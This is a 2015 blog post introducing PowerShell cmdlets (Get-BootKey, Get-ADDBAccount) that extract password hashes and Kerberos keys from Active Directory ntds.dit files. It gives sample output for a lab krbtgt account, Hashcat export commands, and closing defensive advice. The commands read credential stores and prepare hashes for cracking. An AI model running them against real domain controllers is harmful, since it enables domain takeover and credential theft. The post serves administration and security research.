 ```yaml
---
ref: dumping-ntds-dit-files
title: 'Dumping the&nbsp;contents of&nbsp;ntds.dit files using PowerShell'
date: 2015-10-20T18:20:18+00:00
layout: post
lang: en
permalink: /en/dumping-ntds-dit-files-using-powershell/
tags:
    - 'Active Directory'
    - PowerShell
    - Security
---
```


Although there exist several tools for dumping password hashes from the Active Directory database files, including the open-source [NTDSXtract](https://github.com/csababarta/ntdsxtract) from Csaba Bárta whose great research started it all, they have these limitations:

- They do not support the built-in indices, so searching for a single object is slow when dealing with large databases.
- Most of the tools are either Linux-only or running them on Windows is not simple enough.
- Almost none of these tools can modify the database. And if they do, they do not support transaction logs and are quite cumbersome.

Therefore, I have decided to create [my own set of PowerShell cmdlets](/en/list-of-cmdlets-in-the-dsinternals-module/) that wouldn’t have these shortcomings. In the process, I have unintentionally created my own framework that is built on top of Microsoft’s [ManagedEsent](https://managedesent.codeplex.com/) library and hides the complexity of the underlying database. I am planning to release it at GitHub later this year.

One of the cmdlets I have created is **Get-ADDBAccount**, which can be used to extract password hashes, Kerberos keys and even reversibly encrypted passwords from ntds.dit files. Here is an example of its usage:

```powershell
# First, we fetch the so-called Boot Key (aka SysKey)
# that is used to encrypt sensitive data in AD:
$key = Get-BootKey -SystemHivePath 'C:\IFM\registry\SYSTEM'

# We then load the DB and decrypt password hashes of all accounts:
Get-ADDBAccount -All -DBPath 'C:\IFM\Active Directory\ntds.dit' -BootKey $key 

# We can also get a single account by specifying its distinguishedName,
# objectGuid, objectSid or sAMAccountName atribute:
Get-ADDBAccount -DistinguishedName 'CN=krbtgt,CN=Users,DC=Adatum,DC=com' `
        -DBPath 'C:\IFM\Active Directory\ntds.dit' -BootKey $key 
```

The output is identical to what the [Get-ADReplAccount](/en/retrieving-active-directory-passwords-remotely/) cmdlet would return:

```
DistinguishedName: CN=krbtgt,CN=Users,DC=Adatum,DC=com
Sid: S-1-5-21-3180365339-800773672-3767752645-502
Guid: f58947a0-094b-4ae0-9c6a-a435c7d8eddb
SamAccountName: krbtgt
SamAccountType: User
UserPrincipalName:
PrimaryGroupId: 513
SidHistory:
Enabled: False
Deleted: False
LastLogon:
DisplayName:
GivenName:
Surname:
Description: Key Distribution Center Service Account
NTHash: 9b17bcfc3800df21baa6b8a4aeedb4fd
LMHash:
NTHashHistory:
  Hash 01: 9b17bcfc3800df21baa6b8a4aeedb4fd
  Hash 02: c9467e5fae14820500862d85c53747c1
LMHashHistory:
  Hash 01: 1a1d073fde1fca32c24f268fce835de2
  Hash 02: cc8019ecf6fdbcbe06849a9980804e8d
SupplementalCredentials:
  ClearText:
  Kerberos:
    Credentials:
      DES_CBC_MD5
        Key: cddf7308d6cd5d2a
    OldCredentials:
      DES_CBC_MD5
        Key: cddf7308d6cd5d2a
    Salt: ADATUM.COMkrbtgt
    Flags: 0
  KerberosNew:
    Credentials:
      AES256_CTS_HMAC_SHA1_96
        Key: 69b11bfec0eec2b278702bc7d9fbfda23e3789128b92c59955e69932a457533b
        Iterations: 4096
      AES128_CTS_HMAC_SHA1_96
        Key: bcfcc7a65379d7914c2c341a74ca0e0e
        Iterations: 4096
      DES_CBC_MD5
        Key: cddf7308d6cd5d2a
        Iterations: 4096
    OldCredentials:
      AES256_CTS_HMAC_SHA1_96
        Key: 809b0f1697dffe39bb87b2e3d79564dc8ef91b91bad2fc51abc444e42c7e88d9
        Iterations: 4096
      AES128_CTS_HMAC_SHA1_96
        Key: c30fb9e17cd7503f980592a6864c8daa
        Iterations: 4096
      DES_CBC_MD5
        Key: cddf7308d6cd5d2a
        Iterations: 4096
    OlderCredentials:
    ServiceCredentials:
    Salt: ADATUM.COMkrbtgt
    DefaultIterationCount: 4096
    Flags: 0
  WDigest:
    Hash 01: eee4408f94b35bb5dc7077747d9762a3
    Hash 02: 00be705a97c4a1ded7f7fc912ef70aec
    Hash 03: 7b0b14e8f5cfa2de25d04d393c649bb7
    Hash 04: eee4408f94b35bb5dc7077747d9762a3
    Hash 05: 00be705a97c4a1ded7f7fc912ef70aec
    Hash 06: cf102efea5397a51edc9202b922682e5
    Hash 07: eee4408f94b35bb5dc7077747d9762a3
    Hash 08: 5737a1de1f94d3f6e0dbbe4e3f173036
    Hash 09: 9314bbcd0f0f8ab2d3879287e739f621
    Hash 10: 973ff6673784ce0faa956d10952b0be0
    Hash 11: b04c5754a36b8edaac0dfd3c8b741d1a
    Hash 12: 9314bbcd0f0f8ab2d3879287e739f621
    Hash 13: decbd6b05ac2363ef7c772b42339fdab
    Hash 14: b04c5754a36b8edaac0dfd3c8b741d1a
    Hash 15: 71e248eae58d2f1f4b40baf412fde251
    Hash 16: 8f03fa2cf1cdbb300d0e0992fb5265e1
    Hash 17: 5032b686f9b0187115c5b56a4de89d1e
    Hash 18: eb804e4333521ee5e74241db4ecd7e5e
    Hash 19: c86f4816e80f0a590cb03f0b9aa8c04c
    Hash 20: 0e03a76194c6385754a1814384c99798
    Hash 21: db13be8eb45adad0984e5a68ea2dfe23
    Hash 22: db13be8eb45adad0984e5a68ea2dfe23
    Hash 23: 5b6bba9bae24a347108ad7267e1ac287
    Hash 24: e72cad8b0fc837d3e8de4ddc725eb81f
    Hash 25: c19dd7b576c43eec07ba475bd444f579
    Hash 26: 021c07151ece2de494402cf11f62a036
    Hash 27: d657b31bfcacb37443630759cc3a19bf
    Hash 28: 5d49708350e04b16ddc980a0c33c409b
    Hash 29: efe601100b7b4007fe3fa778499d5dda
```

I have also created several Views that generate output for the most popular password crackers, including [Hashcat](https://hashcat.net/oclhashcat/), [John the Ripper](https://www.openwall.com/john/) and [Ophcrack](https://ophcrack.sourceforge.net/):

```powershell
# Dump NT hashes in the format understood by Hashcat:
Get-ADDBAccount -All -DBPath 'C:\IFM\Active Directory\ntds.dit' -BootKey $key |
   Format-Custom -View HashcatNT |
   Out-File hashes.txt -Encoding ASCII
# Other supported views are HashcatLM, JohnNT, JohnLM and Ophcrack.
```

But with the **Golden Ticket** or **Pass-the-Hash** functionality of [mimikatz](https://blog.gentilkiwi.com/mimikatz), an attacker could seize control of the entire Active Directory forest even without cracking those password hashes.

As a countermeasure, it is crucial for companies to **secure physical access** to domain controllers, their backups and their VHD/VHDX/VMDK images in case of virtualized DCs. Turning on BitLocker is not a bad idea either. I really look forward to the new security features planned for Windows Server 2016, including **Shielded VMs** and **Virtual TPMs**.